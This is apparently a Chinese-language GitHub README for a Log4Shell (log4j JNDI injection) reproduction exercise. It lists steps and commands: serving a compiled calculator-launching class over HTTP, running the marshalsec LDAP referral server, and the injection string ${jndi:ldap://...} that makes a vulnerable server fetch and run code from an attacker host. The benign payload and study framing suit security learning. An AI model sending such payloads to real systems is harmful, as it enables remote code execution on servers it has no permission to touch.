

# log4j JNDI注入漏洞 复现学习

## 复现方式

1. 搭建一[应用服务](./VulnerableServer)，使用存在漏洞的log4j版本记录用户输入
2. 准备[恶意脚本](./AttackerServer/HttpServer)，并为其提供一个http
   1. 此处以打开MacOS和Widnows上的计算器应用为例，编写脚本，并对其编译得到class文件
   2. 为class文件提供http服务
      ```python3 -m http.server 8000```
3. 提供一个LDAP服务，重定向到恶意脚本所在http服务
   1. LDAP服务(https://github.com/mbechler/marshalsec)
   2. 启动```java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer exploit.codebase "http://192.168.3.226:8000/#OpenCalculatorW"```
4. 对应用服务输入脚本，触发漏洞
   1. 对应用服务器输入```${jndi:ldap://192.168.3.226:1389/OpenCalculatorW}```进行攻击
5. 攻击过程流程图
   
   
[视频演示](https://www.bilibili.com/video/BV1aR4y1W7xR?spm_id_from=333.999.0.0)
